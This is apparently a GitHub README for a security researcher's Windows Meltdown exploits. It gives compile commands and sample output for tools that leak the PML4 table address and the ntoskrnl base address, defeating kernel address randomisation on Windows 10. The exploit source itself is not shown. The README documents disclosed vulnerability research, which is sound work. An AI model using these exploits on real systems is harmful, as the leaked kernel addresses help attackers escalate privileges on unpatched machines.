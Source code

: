 
# Meltdown KVA Shadow Leak

This repository contains the Windows Meltdown exploits described in the blog post [Meltdown Reloaded: Breaking Windows KASLR by Leaking KVA Shadow Mappings](https://labs.bluefrostsecurity.de/meltdown-reloaded-breaking-windows-kaslr), which can be used to leak the PML4 table address and the "ntoskrnl.exe" base address in the latest "Windows 10" versions (RS7 and 20H1).

## Build Instructions

Using the Visual Studio 64-bit command line compiler, just follow the steps bellow:

For compiling the PML4 leaker:
- Execute `cl.exe pml4leak-melt.c`

For compiling the NT leaker:
- Execute `cl.exe ntleak-melt.c`

## Output examples

PML4 table address leaker output example:

```
C:\Users\Public>pml4leak-melt.exe

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 16 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

C:\Users\Public>
```

NT base address leaker output example in targets with RAM memory equal or higher than 4GB:

```
C:\Users\Public>ntleak-melt.exe
[+] Win10 build number: 19041
[+] RAM detected: 4GB

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 15 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

[+] Leaking NT base address...
 [+] PML4 entry found: fffff178bc5e2f80 (entry 0x1f0)
  [+] PDPT entry found: fffff178bc5f0000 (entry 0x0)
   [+] PD entry found: fffff178be0003e8 (entry 0x7d)
   [+] PD entry found: fffff178be000518 (entry 0xa3)
    [+] PT entry found: fffff17c000a3108 (entry 0x21)

[+] NT base delta: 0xa21000
[+] NT POINTER: 0xfffff80014621000
[+] NT BASE: 0xfffff80013c00000

[+] Elapsed time: 141 ms
[+] NT base address: 0xfffff80013c00000 (entry 0xa3)

C:\Users\Public>
```
